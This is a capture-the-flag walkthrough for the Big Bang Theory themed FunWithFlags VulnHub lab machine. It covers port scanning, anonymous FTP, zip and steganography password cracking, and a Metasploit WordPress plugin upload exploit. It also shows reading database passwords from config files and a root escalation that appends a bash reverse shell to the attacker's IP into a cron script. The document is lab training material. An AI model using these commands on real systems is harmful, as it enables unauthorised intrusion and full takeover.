# [TBBT - FunWithFlags-1 Walkthrough](https://www.vulnhub.com/entry/tbbt-funwithflags,437/)

```shell
______             _    _ _ _   _      ______ _                 
|  ___|           | |  | (_) | | |     |  ___| |                
| |_ _   _ _ __   | |  | |_| |_| |__   | |_  | | __ _  __ _ ___ 
|  _| | | | '_ \  | |/\| | | __| '_ \  |  _| | |/ _` |/ _` / __|
| | | |_| | | | | \  /\  / | |_| | | | | |   | | (_| | (_| \__ \
\_|  \__,_|_| |_|  \/  \/|_|\__|_| |_| \_|   |_|\__,_|\__, |___/
                                                       __/ |    
                                                      |___/
```

>This CTF Challenge is themed after the show ***The Big Bang Theory***. The goal is to find **7 Flags** each corresponding to the main characters of the show and get **root access**.<br>
Difficulty: **Beginner**


___

# 0.0 SETUP
1. Download TBBT-Funwithflags.ova from [here](https://www.vulnhub.com/entry/tbbt-funwithflags,437/)
2. Import the .ova into VirtualBox with all default settings.

> Here, we are going to use Kali Linux as a attacker VM.<br>
To bring both Kali Linux and TBBT-Funwithflags VMs in same subnet follow the steps shown below:

1. In VirtualBox, Click on Tools > Preferences > Network 
2. Click on Add New NAT from the icon on right hand side which looks like this 
3. Right click on NatNetwork which you created and select 'Edit NAT Network'
4. Enter the details as shown <br>

5. Once the NAT has been added, Go to the machine settings of Kali Linux (Right Click on VM > Settings)
6. Goto Network and choose the following settings and click Ok<br>

7. Repeat steps 5 and 6 for TBBT-Funwithflags VM

> You can confirm that both the VMs are on same subnet by simply pinging the TBBT-Funwithflags VM 

```shell
ping 192.168.1.105 #this is the static ip of TBBT-Funwithflags VM that has been assigned by default
```

> The output of ping shows that the two VMs can talk to each other and now we are all setup for pen-testing


___

# 1.0 Footprinting 


> 1.1: We run a simple nmap scan to scan for all the ports on the server

```shell
nmap -sV -A -p- 192.168.1.105
```

The scan results are as follows<br>
```shell
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-22 04:57 CDT
Nmap scan report for 192.168.1.105
Host is up (0.00040s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp           539 Mar 04 01:11 Welcome.txt
| -rw-r--r--    1 ftp      ftp           114 Mar 04 01:13 ftp_agreement.txt
|_drwxr-xr-x    9 ftp      ftp          4096 Mar 04 01:09 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cf:5c:ee:76:7c:48:52:06:8d:56:07:7f:f6:5d:80:f2 (RSA)
|   256 ab:bb:fa:f9:89:99:02:9e:e4:20:fa:37:4f:6f:ca:ca (ECDSA)
|_  256 ea:6d:77:f3:ff:9c:d5:dd:85:e3:1e:75:3c:7b:66:47 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 4 disallowed entries 
|_/howard /web_shell.php /backdoor /rootflag.txt
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fun with flags!
1337/tcp open  waste?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.80%I=7%D=4/22%Time=5EA014FB%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(GenericLine
SF:s,2F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(GetRequest,2
SF:F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(HTTPOptions,2F,
SF:"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(RTSPRequest,2F,"F
SF:LAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(RPCCheck,2F,"FLAG-s
SF:heldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(DNSVersionBindReqTCP,2F,
SF:"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(DNSStatusRequestT
SF:CP,2F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(Help,2F,"FL
SF:AG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(SSLSessionReq,2F,"FL
SF:AG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(TerminalServerCookie
SF:,2F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(TLSSessionReq
SF:,2F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(Kerberos,2F,"
SF:FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(SMBProgNeg,2F,"FLA
SF:G-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(X11Probe,2F,"FLAG-she
SF:ldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(FourOhFourRequest,2F,"FLAG
SF:-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(LPDString,2F,"FLAG-she
SF:ldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(LDAPSearchReq,2F,"FLAG-she
SF:ldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(LDAPBindReq,2F,"FLAG-sheld
SF:on{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(SIPOptions,2F,"FLAG-sheldon{
SF:cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(LANDesk-RC,2F,"FLAG-sheldon{cf8
SF:8b37e8cb10c4005c1f2781a069cf8}\n")%r(TerminalServer,2F,"FLAG-sheldon{cf
SF:88b37e8cb10c4005c1f2781a069cf8}\n")%r(NCP,2F,"FLAG-sheldon{cf88b37e8cb1
SF:0c4005c1f2781a069cf8}\n")%r(NotesRPC,2F,"FLAG-sheldon{cf88b37e8cb10c400
SF:5c1f2781a069cf8}\n")%r(JavaRMI,2F,"FLAG-sheldon{cf88b37e8cb10c4005c1f27
SF:81a069cf8}\n")%r(WMSRequest,2F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a
SF:069cf8}\n")%r(oracle-tns,2F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069
SF:cf8}\n")%r(ms-sql-s,2F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\
SF:n")%r(afp,2F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(giop
SF:,2F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n");
MAC Address: 08:00:27:6D:1D:54 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.40 ms 192.168.1.105

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.91 seconds

```

<br>

> 1.2: We run a dirb on the http server to find all the directories

```shell
dirb http://192.168.1.105
```
> Some interesting Directories we get from the output are as follows:
1. http://192.168.1.105/private/ 
2. http://192.168.1.105/music/wordpress/  
3. http://192.168.1.105/phpmyadmin/  

___

# 2.0 Lets Crack


## 2.1: FLAG-sheldon<br>
> This one's pretty simple. From the nmap output we see that there's an unusual port open on 1337. So we try to connect to 1337 using ncat

```shell
ncat 192.168.1.105 1337
```

> That's out first Flag!!<br>


---
<br>

## 2.2: FLAG-howard<br>
> From the nmap results we know that we have anonymous login enabled on ftp. So lets login to FTP using it.

```shell
ftp 192.168.1.105
```

> after searching around in pub/ directory and reading the files, the only one that seemed significant was in pub/howard/ So we download those files on our machine<br>



> contents of note.txt indicate that indeed we are in the right direction<br>



> the super\_secret\_nasa\_stuff\_here.zip is encrypted with a password.
We use [fcrackzip](https://github.com/hyc/fcrackzip) to crack the password.<br>

```shell
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' super_secret_nasa_stuff_here.zip
```



> now we unzip it with the password that we found

```shell
unzip super_secret_nasa_stuff_here.zip
```



> This was pretty tricky since the zip file unzipped into a .jpg image. After searching online I got to know that stegnography was used on the image. So we use [StegCracker](https://github.com/Paradoxis/StegCracker) <br>

```shell
stegcracker marsroversketch.jpg /usr/share/wordlists/rockyou.txt
```


> That's out second Flag!!<br>


---

<br>

## 2.3: FLAG-penny<br>
> From the dirb scan, we know that there's a wordpress installation on the server. Thus we perform a wpscan to enumerate the plugins

```shell
wpscan --url http://192.168.1.105/music/wordpress -e ap
```
> The scan results show only 'reflex-gallery' as an installed plugin. Let's see if there are any vulnerabilities for this plugin on metasploit <br>

```shell
msfdb start
msfconsole
msf5 > search reflex
```



```shell
msf5 > use exploit/unix/webapp/wp_reflexgallery_file_upload
```

```shell
msf5 exploit(unix/webapp/wp_reflexgallery_file_upload) > set RHOST 192.168.1.105
msf5 exploit(unix/webapp/wp_reflexgallery_file_upload) > set TARGETURI /music/wordpress/
msf5 exploit(unix/webapp/wp_reflexgallery_file_upload) > exploit
```
> As we can see, we have got a meterpreter connection. Now we need to spawn a shell

```shell
meterpreter > shell
python -c 'import pty; pty.spawn("/bin/bash")'
```
> This will spawn a bash shell for us. 

```shell
cd /home/penny
ls -lah
```
> Here, we have a hidden file which is our flag!<br>


---

<br>

## 2.4: FLAG-raj<br>
> Lets go back to the wordpress folder.

```shell
cd /var/www/html/music/wordpress
cat wp-config.php
```

> We get the mysql credentials. Let's see what do we have in the database

```shell
mysql -u footprintsonthemoon -p
Enter password: footprintsonthemoon1337
mysql> use footprintsonthemoon;
```

> After searching all the tables in the db, we can get the flag in the 'wp-posts' table at the very end
```shell
mysql> select * from wp_posts;
```


---

<br>

## 2.5: FLAG-bernadette<br>
> This flag is very similar to the previous one. We goto the /private/ directory of the apache and get the db-config.php which will give us mysql credentials.

```shell
cd /var/www/html/private/
cat db_config.php
```


```shell
mysql -u bigpharmacorp -p
Enter password: weareevil
mysql> use bigpharmacorp;
mysql> select * from users;
```

> Here we have the flag


---

<br>

## 2.6: FLAG-amy<br>
> Lets go to amy's directory and see what we have there

```shell
cd /home/amy
cat notes.txt 
```


> So we know that secretdiary is an executable but it is password protected. So we run a simple strings command.

```shell
strings secretdiary
```

> We get all the stings in the executable along with the flag which we were looking for!!


---

<br>

## 2.7: FLAG-leonard<br>
> This is the last one and it will require us to perform privilege escalation. Lets see what we have inside leonard's directory 

```shell
cd /home/leonard/
cat thermostat_set_temp.sh
```


> The hint here is that the script will be executed every minute. So there is a cron job set up on the server. Also the permissions of the file show that it is owned by root. So the simplest thing we can do here is add a reverse shell code into the script. You can find the reverse shell code [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```shell
echo "bash -i >& /dev/tcp/192.168.1.5/4444 0>&1" >> thermostat_set_temp.sh
```
> NOTE: 192.168.1.5 is the attacker's IP (Kali Linux). <br>
Now we listen on port 4444 for connection. We'll wait for a minute so that the thermostat\_set\_temp is run by cron and after that we'll get the reverse shell

```shell
nc -lvp 4444
```

> WE ARE ROOT! 

<br>



<br> 




Buzzinga!!!


